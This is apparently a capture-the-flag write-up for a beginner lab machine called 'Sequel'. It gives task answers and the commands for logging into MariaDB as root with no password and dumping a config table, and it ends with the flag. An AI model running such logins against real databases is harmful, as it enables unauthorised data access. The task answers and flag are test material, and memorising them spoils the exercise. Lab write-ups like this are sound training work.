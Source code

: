# Sequel

> Task 1 - What does the acronym SQL stand for? 

```
structured query language
```

> Task 2 - During our scan, which port running mysql do we find? 

```
3306
```

> Task 3 - What community-developed MySQL version is the target running? 

```
mariadb
```

> Task 4 - What switch do we need to use in order to specify a login username for the MySQL service? 

```
-u
```

> Task 5 - Which username allows us to log into MariaDB without providing a password? 

```
root
```

> Task 6 - What symbol can we use to specify within the query that we want to display eveything inside a table? 

```
*
```

> Task 7 - What symbol do we need to end each query with? 

```
;
```

> Submit root flag

```
mysql -h $IP -u root
show databases;
use htb;
show tables;
select * from config;
```

```
HTB{7b4bec00d1a39e3dd4e021ec3d915da8}